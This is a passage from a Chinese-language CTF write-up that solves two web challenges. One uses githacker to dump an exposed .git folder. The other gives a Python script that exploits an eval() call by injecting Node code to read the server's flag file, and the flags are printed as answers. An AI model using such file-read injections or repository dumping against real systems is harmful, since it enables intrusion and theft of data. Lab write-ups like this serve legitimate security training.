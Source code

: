 3. Flag 3/3 ![image](https://hackmd.io/_uploads/BkKD5D4SC.png)

---

### Gotcha

> {{< spoiler >}}
> ![Challenge](https://hackmd.io/_uploads/H1lTSKVH0.png "500px")
> {{< /spoiler >}}
> Can you get the flag?    
> https://gotcha.fhh4ck3rs.taipei/
>
> Author: Scott

#### 題解

點開題目DotGit插件馬上跳通知，因此從這方面下手，用githacker拿到在index.php的flag

**payload:**

   ```bash
   $ githacker --url https://gotcha.fhh4ck3rs.taipei/.git --output-folder tmp
   ```

> Flag: `FhCTF{I_9iT_!7}`

---

### BMI 計算機

> {{< spoiler >}}
> ![Challenge](https://hackmd.io/_uploads/SkRoHgOrR.png "500px")
> {{< /spoiler >}}
> 體重的控制是重要的  
> ......但是說真的，減肥真的好難QWQ  
> 所以...別講這種傷感情的事情了好嗎！  
> https://bmi-calc.fhh4ck3rs.taipei/
>
> Author: xiunG

#### 題解

1. 附加檔案中的`app.js`，其中`result = eval(expression);`可作為攻擊點
2. 寫腳本
   ```python
   import requests
   
   req = requests.post('https://bmi-calc.fhh4ck3rs.taipei/bmi', json={
       'string': "require(\'fs\').readFileSync(\'./flag\').toString()"
   })
   print(req.status_code)
   print(req.content)
   ```

> Flag: `FhCTF{bReAk_bM1_cAcu1aT0r}`

---